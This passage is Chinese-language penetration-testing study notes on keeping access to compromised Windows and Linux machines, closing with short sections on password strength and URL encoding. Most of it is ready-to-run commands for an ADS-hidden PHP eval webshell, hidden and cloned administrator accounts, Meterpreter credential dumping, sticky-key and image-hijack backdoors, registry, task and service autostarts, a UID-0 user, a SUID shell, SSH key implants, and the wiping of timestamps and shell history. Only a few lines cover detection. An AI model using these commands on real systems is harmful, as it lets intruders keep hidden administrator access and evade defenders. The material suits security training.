  - 使用Attrib +s +a +h +r命令就是把原本的文件增加了系统文件属性，存档文件属性，只读文件属性和隐藏文件属性
  ```
  arrtib +s +a +h +r test.txt
  ```
  
  - 隐藏原理：因为windows默认隐藏受保护系统文件，
  - 查看：
    - 组织--文件夹和搜索选项--查看--隐藏受保护系统文件（取消勾选）
  

- 利用ADS隐藏文件内容
  - 在服务器上echo一个数据流文件
  ```
  echo ^<?php @eval($_POST['test']);?^> > test.txt:hidden.jpg
  此时index.php变成了宿主文件，一句话木马寄宿在了index.php上，成为寄宿文件
  ```
  
  - 查看寄宿文件：
  ```
  dir /r
  ```
  
  - 删除方法：和宿主文件一起删除

##### 隐藏账号
- Windows隐藏系统用户操作，CMD命令下，建立一个用户名为test$，密码为111qqq的简单隐藏账户，并且把该账户提升为管理员权限
```
net user test$ qwe123.. /add
```


- 克隆账号
  - 第一步：开始--运行--输入regedit后回车，到“HKEY_LOCAL_MACHINE\SAM\SAM”
  - 第二步：右键权限，赋予完全控制权限，然后重启注册表


  - 第三步：将administrator的F的二进制数据，复制到test$用户的配置中

  - 切换到$test用户，查看当前用户权限

  - 克隆账户成功

##### 进程注入
- 连接后门程序


- 使用命令
```
migrate 320  // 进行进程迁移，从而达到提权的目的，因为320是system权限
```

- 此时可以使用load kiwi和creds_all得到管理员账号密码

#### Windows权限维持-后门篇
- 粘滞键后门
  - 概述：粘滞键指的是电脑使用中的一种快捷键，专为同时按下两个或多个键有困难的人而设计的。粘滞键的主要功能是方便Shift等键的组合使用。一般的电脑连按五次shift会出现粘滞键提示。sethc.exe就是windows中粘滞键的调用文件
  - sethc.exe文件的属性，默认情况下是属于TrustedInstaller所有，不管是普通用户还是administrator都没有权限对它进行编辑的。TrustedInstaller是一个安全机制，权限比administrator管理权高，但比system低。
  - 将sethc.exe的权限的所有者改为administrator，然后赋予完全控制，然后更改名称
  
  
  

- Logon Script后门
  - 概述：Logon Scripts是Windows登录脚本，当用户登录时触发，它能够优先于杀毒软件执行，从而绕过杀毒软件对敏感操作的拦截。
  - 将后门程序加入注册表HKEY_CURRENT_USER\Environment
  ```
  REG ADD "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\Users\Administrator\Desktop\5555.exe"
  ```
  
  - 切换用户，触发后门程序
  

- 映像劫持
  - 修改注册表：HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
  ```
  reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution
  Options\sethc.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f
  ```
  
  

- 注册表自启动后门
  - 方法1：
  - 注册表位置；HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
  - 添加键test1,值为后门程序路径
  ```
  REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v test1 /t REG_SZ /d "C:\Users\Administrator\Desktop\7764.exe"
  ```
  
  - 重启后，成功启动后门程序
  
  - 方法2：
  - 注册表位置：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
  - 修改Userinit的值，重启后自动运行程序

- 计划任务后门
  - schtasks命令设定计划自启动后门程序
  ```
  schtasks /Create /tn Updater /tr C:\Users\Aministrator\Desktop\5555.exe /sc minute /mo 1
  # 每1分钟自动执行5555.exe
  ```
  ```
  chcp 437  # 修改编码
  schtasks  # 查看计划任务
  ```
  
  
  - 删除计划任务
  ```
  schtasks /delete /tn Updater
  ```
  

- 服务自启动后门（推荐，绑定服务）
  - 自启动服务一般是在电脑启动加载指定的服务程序，我们可以将exe文件注册为服务，也可以将dll文件注册为服务
  ```
  sc create test binpath= C:\Users\Administrator\Desktop\5555.exe （注意等号后面有空格）#创建服务
  sc config test start= auto  #设置服务为自动启动  
  net start test              #启动服物            
  ```
  
  - 成功连接后门
  
  - 且服务启动过程中，无法删除

- 组策略设置脚本启动
  - 首先创建一个脚本magedu.bat，此处为添加隐藏用户，内容如下：
  ```
  $echo off

  net user test2$ qwe123.. /add

  net localgroup administrators test2$ /add

  exit
  ```
  - gpedit.msc打开组策略配置脚本（启动/关机），添加脚本，关机就会自动执行脚本


#### Linux权限维持-隐藏篇
- 隐藏文件
  - 文件名前加.（点 ）

- 隐藏文件时间戳
  - Linux下隐藏后门必须要修改事件，否则容易被发现，直接利用touch就可以了
  ```
  touch -t <指定时间戳> <文件名>

  例如：touch -t 1908081042.30 one.php
  ```

- 隐藏权限
  - 在Linux中，使用chattr命令为文件添加锁定属性，来防止root和其他管理用户误删除和修改重要文件及目录，此权限ls -l查看不出来，从而达到隐藏锁定权限的目的
  ```
  chattr +i evil.php 为文件添加锁定属性
  // 此时文件无法被删除
  lsattr evil.php  可以查看到锁定属性+i

  chattr -i evil.php  解除锁定
  rm -rf evil.php  删除文件
  ```

- 隐藏历史命令
  - 临时禁用历史记录
  ```
  set +o history
  ```
  - 重新开启历史记录
  ```
  set -o history
  ```
  - 从历史记录删除指定记录
  ```
  history -d [num]
  ```

#### Linux权限维持-后门篇
- 一句话添加用户和密码
  - 普通用户
  ```
  # 创建一个用户名guest，密码123456的普通用户
  useradd -p `openssl passwd -1 -salt 'salt' 123456` guest

  # useradd -p 方法  ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
  useradd -p "$(openssl passwd -1 123456)" guest

  # chpasswd方法
  useradd guest;echo 'guest:123456'|chpasswd

  # echo -e方法
  useradd test;echo -e "123456\n123456\n" |passwd test
  ```
  - root用户
  ```
  # 创建一个用户名guest，密码123456的root用户
  useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d home/test
  ```

- SUID Shell
  - SUID SHELL是一种可用于以拥有者权限运行的shell
  ```
  cp /bin/bash /tmp/shell
  chmod u+s /tmp/shell
  ```
  
  - 使用普通用户权限执行
  ```
  /tmp/shell -p
  ```
  
  - 排查
  ```
  # 在Linux中查找使用SUID设置的文件
  find . -perm /4000 
  # 在Linux中查找使用SGID设置的文件
  find . -perm /2000
  # 取消s权限
  chmod u-s /tmp/shell
  ```

- SSH免密登录
  - /etc/ssh/sshd_config的配置
  ```
  PermitRootLogin yes
  Pu keyAuthentication yes
  // 修改这两项配置
  ```
  
  - 启动ssh服务
  ```
  systemctl sshd start
  ```
  - 在攻击者服务器上执行生成一对公私钥
  ```
  ssh-keygen -t rsa
  ```
  - 生成的公私钥在root/.ssh/中
  
  - 然后安装公钥
  ```
  cat id_rsa.pub >> authorized_keys
  ```
  - 在ssh客户端使用私钥连接
  
  - 成功登录
  


## 弱口令
- 强口令定义：
  - 长度至少8位
  - 密码要包含大写字母、小写字母、数字、特色符号中的至少3类
  - 密码和用户名无相关性


## 编码与解码
### URL编码
- 在数据请求时，URL编解码的过程
  - 1.用户输入或选择URL
    - 当用户在浏览器地址栏中输入一个URL、点击一个链接或提交一个表单时，这个过程开始。
  - 2.客户端准备请求
    - 在请求被发送到服务器之前，<font color=tomato>浏览器</font>首先会检查URL中是否有不安全的字符。
    - 不安全的字符（例如空格、#、&、%等）以及非ASCII字符将被URL编码，即转换为%后跟两个十六进制数字的形式（例如，空格字符通常被编码为%20）。
  - 3.客户端发送请求
    - 浏览器使用HTTP或HTTPS协议发送<font color=tomato>编码后</font>的URL请求到指定的web服务器。
    - 如果是表单数据，并且方法为GET，那么数据也会附加到URL的末尾，并以?字符分隔。此时，表单数据中的特殊字符也会进行URL编码。
  - 4.服务端接收请求
    - Web服务器接收到编码的URL请求。
    - 服务器或服务器上的应用（如PHP、Python、Java应用等）会对这个编码的URL进行解码，以恢复原始数据。
  - 5.服务端处理请求
    - 应用程序处理解码后的URL，并据此决定如何响应。
    - 如果URL中包含查询参数，应用程序可能会使用这些参数查询数据库或进行其他操作。
  - 6.服务端发送响应
    - 一旦应用程序决定了如何响应，它会生成一个HTML、JSON、XML或其他格式的响应。
    - 这个响应通常不包含URL编码（除非响应体内部有需要编码的URLs）。
  - 总结：
    - 在整个流程中，URL编码主要发生在客户端发送请求之前，而URL解码则发生在服务端接收并处理该请求时。

- 通常情况下，无论是PHP、Python、Java还是其他后端语言，它们的web框架或服务器组件都会<font color=tomato>在处理请求时对URL进行至少一次解码</font>。这是为了确保服务端可以正确地理解和处理请求中的参数和内容。
  - 对于PHP，使用$_GET或$_REQUEST全局数组来获取URL参数时，这些参数已经被自动解码了。
  - 对于Python（使用Flask或Django等框架），当你尝试获取URL中的参数时，这些参数也已经被自动解码。
  - 对于Java（使用Spring、Servlet等），解码也是自动进行的。

 